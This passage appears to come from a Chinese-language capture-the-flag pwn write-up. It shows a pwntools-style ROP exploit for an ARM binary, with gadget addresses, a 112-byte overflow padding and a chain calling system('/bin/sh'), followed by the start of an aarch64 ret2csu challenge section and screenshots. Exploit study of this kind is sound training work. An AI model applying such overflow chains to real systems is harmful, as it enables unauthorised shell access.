 ```bash
r0_r4=0x00020904
bin_sh=0x0006c384
system=0x00010BA8
s('\n')
pl='a'*112+p32(r0_r4)+p32(bin_sh)+p32(0)+p32(system)
s(pl)
itr()
```

## baby\_arm (aarch64 ret2csu)

### 思路

[![](assets/1703209924-5cb8d4e6d60b6f96131c33658633c3f0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164832-b83caf66-9fdd-1.png)  
先动调熟悉一下

[![](assets/1703209924-995525b22057b7322c6de7c1ecc28c98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164843-bea32506-9fdd-1.png)
